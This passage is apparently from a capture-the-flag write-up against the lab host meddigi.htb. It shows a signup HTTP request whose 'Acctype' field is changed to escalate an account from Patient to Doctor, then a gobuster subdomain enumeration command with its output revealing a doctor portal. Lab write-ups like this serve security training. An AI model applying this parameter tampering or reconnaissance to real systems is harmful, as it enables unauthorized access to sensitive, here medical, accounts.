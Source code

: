 ```
POST /Signup/SignUp HTTP/2
Host: meddigi.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0

Name=a&LastName=a&Email=a%40a.com&Password=admin1234&ConfirmPassword=admin1234&DateOfBirth=2001-11-11
&PhoneNumber=0123123123&Country=vn&Acctype=1&__RequestVerificationToken=CfDJ8JatmW0QBFhNjnTxvRtK0g3wq
rNgxID6JcYBlQpz2--gnlUQv-AtYorvMg37Ule8QgcO1mWrknKLcg57g3cuS4Usl7qYW7x1uQoFCe3C-6kCuU4qM_4qigXJ2IkTDk
_Nd76VBGippu5rTKL6-HArh54
```
- Note that our account has role `Patient`, which probably match the `Acctype=1`. Try changing it to 2 to see what happen:

![img_2.png](img/img_2.png)

- So we got role `Doctor`, but how can we use it? Maybe there is a portal for doctors hidden somewhere. Let's look for subdomains using `gobuster`:

```
gobuster vhost -u https://meddigi.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -t 20 -k
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             https://meddigi.htb
[+] Method:          GET
[+] Threads:         20
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: portal.meddigi.htb Status: 200 [Size: 2976]
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================
```
